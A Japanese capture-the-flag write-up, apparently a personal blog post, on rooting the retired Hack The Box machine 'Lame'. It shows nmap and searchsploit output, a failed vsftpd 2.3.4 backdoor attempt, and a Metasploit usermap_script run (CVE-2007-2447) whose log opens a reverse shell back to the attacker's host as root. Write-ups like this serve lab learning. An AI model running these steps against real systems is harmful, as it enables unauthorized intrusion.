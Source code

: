 # はじめに
Hack The Boxの攻略などを自分用にまとめたものです。
主に記録用として記しています。
現在のランクはHackerです。
間違っていることも多いかと思いますが、よろしくお願いします。
<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">
Twitter:@yukitsukai1731

# Lame
HackTheBox公式より
<img width="265" alt="スクリーンショット 2020-05-27 15.19.35.png" src="https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d43f3496-414b-af40-84ca-0d0f58f50ae9.png">

Lame is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

Lameは初心者レベルのマシンで、ルートアクセスを得るために必要なエクスプロイトは1つだけです。Hack The Boxで公開された最初のマシンであり、引退するまでは新規ユーザーの最初のマシンであることが多かった。

# スキャン
Lame(10.10.10.3)に対して、スキャンを行います。
まずnmapからスキャンを開始します。
## nmap 
```
nmap -sC -sV -oN -Pn lame 10.10.10.3
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -oN...通常出力
- -Pn...ping送信をせずにスキャンを行う

```
kali@kali:~/htb/Lame$ nmap -sC -sV -Pn -oN lame 10.10.10.3
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-27 02:11 EDT
Nmap scan report for 10.10.10.3
Host is up (0.38s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable                                                                            
|_End of status                                                                                                       
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)                                                
| ssh-hostkey:                                                                                                        
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)                                                        
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)                                                        
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3d00h54m04s, deviation: 2h49m45s, median: -3d02h54m06s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-05-23T23:18:11-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.94 seconds
```

ここで、21番ポートのvsftpd2.3.4と445番ポートのSamba smbd 3.0.20が気になります。
それぞれsearchsploitを使用して検索してみましょう。

```
kali@kali:~/htb/Lame$ searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                              | unix/remote/17491.rb
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

```
kali@kali:~/htb/Lame$ searchsploit Samba 3.0.20
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                              | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)    | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                               | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

これらの情報をもとに、侵入していきたいと思います。

# 侵入
まずはvsftpd2.3.4を使いたい思います。
vsftpd2.3.4はGoolgeで調べてみたところ、バックドアコードが含まれている時期がありました。
これを利用してみましょう。
僕が昔、このexploitコードを勉強がてら書いたことがあるので、それを利用したいと思います。
GitHub:
https://github.com/yukitsukai47/vsftpd2.3.4_exploit

```
kali@kali:~/htb/Lame$ python3 exploit.py 10.10.10.3
対象のサーバへ接続中...
対象のサーバにvsftpd2.3.4の脆弱性がありました.

攻撃を開始します
攻撃完了!
timed out
kali@kali:~/htb/Lame$
```

どうやらvsftpd2.3.4は使っているが、バックドアコードは取り除かれているもののようです。

次に、Samba 3.0.20の脆弱性を利用したものをmetasploitから実行してみましょう。
Samba 3.0.20はGoogleで調べたCVE-2007-2447とされています。

![スクリーンショット 2020-05-27 16.11.16.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a1405547-fef8-d554-045b-d823c8e2c05a.png)



```
kali@kali:~/htb/Lame$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > search CVE-2007-2447

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


msf5 > use exploit/multi/samba/usermap_script 
msf5 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on 10.10.14.4:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo CHcW0IbpgJJIrdAq;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\nCHcW0IbpgJJIrdAq\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:45255) at 2020-05-27 03:04:39 -0400


whoami
root
```

いきなりrootが得られました。
お疲れ様でした。